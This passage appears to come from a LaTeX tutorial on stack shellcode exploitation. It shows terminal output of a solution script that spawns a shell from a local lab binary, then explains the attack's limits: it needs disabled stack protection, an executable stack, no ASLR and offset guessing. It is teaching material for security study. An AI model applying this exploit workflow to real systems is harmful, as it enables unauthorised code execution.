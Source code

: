 As expected, the program spawns a shell. This is a remarkable result when you
think about it. Starting from a program which does nothing but read input, check
it, and print output, we have achieved arbitrary code execution!

We managed to get a shell, but this is a pretty useless exploit in practice. Let
us count the ways:

\begin{enumerate}
    \item The program must be compiled with \texttt{-fno-stack-protector}
    \item The program must be compiled with \texttt{-z execstack}
    \item The system must have no ASLR
    \item It requires several guesses
    \item The range of guesses can be arbitrarily large
\end{enumerate}

The last point is due to the fact that the program can be run with arbitrarily
many environment variables. One way to see this work is to run
\texttt{/bin/bash} from within itself.

\begin{lstlisting}
> ./shellcode_solution.py 
<truncated>
[+] Spawning shell with offset 73
[+] Starting local process './shellcode': pid 1083
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './shellcode' stopped with exit code 0 (pid 1083)
[*] Got EOF while sending in interactive

> /bin/bash
> ./shellcode_solution.py 
<truncated>
[+] Spawning shell with offset -81
[+] Starting local process './shellcode': pid 3080
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './shellcode' stopped with exit code 0 (pid 3080)
[*] Got EOF while sending in interactive

> /bin/bash
> ./shellcode_solution.py 
<truncated>
[+] Starting local process './shellcode': pid 4402
[-] No working offsets found
> 
\end{lstlisting}

We generally have no information about a running process's environment when
attempting to exploit it. Of course this wouldn't be a problem if we could
somehow \emph{leak} an address from the program, but then there are better ways
to get a shell.

